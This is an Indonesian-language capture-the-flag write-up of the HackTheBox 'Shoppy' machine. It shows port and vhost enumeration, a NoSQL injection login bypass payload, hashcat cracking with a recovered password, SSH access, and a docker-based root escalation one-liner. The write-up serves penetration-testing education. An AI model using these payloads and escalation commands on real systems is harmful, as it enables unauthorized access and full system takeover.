

# Shoppy

### Port Scanning

```bash
sudo nmap -sV -sT -sC -oN nmap_initial -T4 shoppy.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hasil dari port scanning hanya menunjukkan port 80 dan 22. Sambil menunggu full port scan, kita bisa enumerasi directory dan subdomain.

### Directory Scanning

```
ffuf -recursion-depth 3 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shoppy.htb/FUZZ -r
......
________________________________________________

login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 559ms]
admin                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 261ms]

```

### Vhost Discovery

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
....
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 195ms]
```

Jangan lupa tambahkan subdomain yang kita temukan ke /etc/hosts.

Oke dari enumerasi awal, kita mendapatkan data berikut:

* Open Port: 80, 22
* Admin Page: [http://shoppy.htb/admin](http://shoppy.htb/admin)
* Other Subdomain: [http://mattermost.shoppy.htb/](http://mattermost.shoppy.htb/)

### Initial Access

NoSQL Injection at Login Page

Setelah beberapa kali melakukan fuzzing dan trial error, saya berhasil masuk ke dashboard admin menggunakan payload berikut:

```
admin'||1==1%00
```

<figure><figcaption><p>NoSQL Auth Bypass</p></figcaption></figure>

Referensi:



<figure><figcaption></figcaption></figure>

Tidak banyak menu yang bisa di explore. Jadi kita langsung coba cek di menu Search for Users. Kita gunakan payload yang sebelumnya kita pakai untuk masuk.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Menggunakan hash-identifier, kita bisa mengetahui jenis hash nya.


<figure><figcaption></figcaption></figure>

Menggunakan wordlist rockyou yang ada di Kali Linux, kita crack dua hash password yang kita dapat sebelumnya menggunakan hashcat.

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.lst 
```

<figure><figcaption></figcaption></figure>

Satu password berhasil di crack, yakni password milik **josh**.

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Kita gunakan kredensial tersebut untuk login ke dashboard Mattermost.

Akses:

* Login: **http://mattermost.shoppy.htb/**
* Username: **josh**
* Password: **remembermethisway**

Pada channel Deploy Machine, kita akan mendapatkan history chat yang menampikan kredensial yang dapat kita gunakan untuk login SSH.


<figure><figcaption><p>SSH Creds</p></figcaption></figure>

### Get User Flag

Login ke server menggunakan kredensial yang didapat sebelumnya.

<figure><figcaption></figcaption></figure>

### Privilege Escalation

Pertama, jalankan command

```
sudo -l
```

Dan masukkan password user jaegar yang kita dapat sebelumnya.

```
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Selanjutnya kita jalankan command

```
sudo -u deploy /home/deploy/password-manager
```

Namun ternyata kita harus memasukkan password.

<figure><figcaption></figcaption></figure>

Oke, selanjutnya kita download file password-manager ke mesin kita. Lalu kita coba analisa menggunakan **Cutter**. Tidak diperlukan skill reverse engineering disini (karena ini juga mesin dengan kategori Easy), dan Master Password nya bisa langsung kita temukan karena disimpansecara hard-coded didalam aplikasi.

<figure><figcaption></figcaption></figure>

Selanjutnya kita gunakan password yang kita dapatkan dari step sebelumnya untuk mengeksekusi password-manager.

<figure><figcaption></figcaption></figure>

Selanjutnya kita gunakan kredensial tersebut untuk login ke user deploy.

<figure><figcaption><p>Move to user deploy</p></figcaption></figure>

Saat menjalankan perintah **sudo -l** kita mendapati error

```
Sorry, user deploy may not run sudo on shoppy.
```

Setelah menjalankan LinPEAS, kita mendapati info bahwa docker kemungkinan adalah PE Vector.

<figure><figcaption><p>PE via Docker</p></figcaption></figure>

Untuk trick PE via docker, kita bisa cek di GTFObins.

* [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```

<figure><figcaption><p>Rooted</p></figcaption></figure>

Oke mungkin itu saja write-up kali ini. Semoga ada yang bisa dipelajari dari writeup mesin Shoppy.
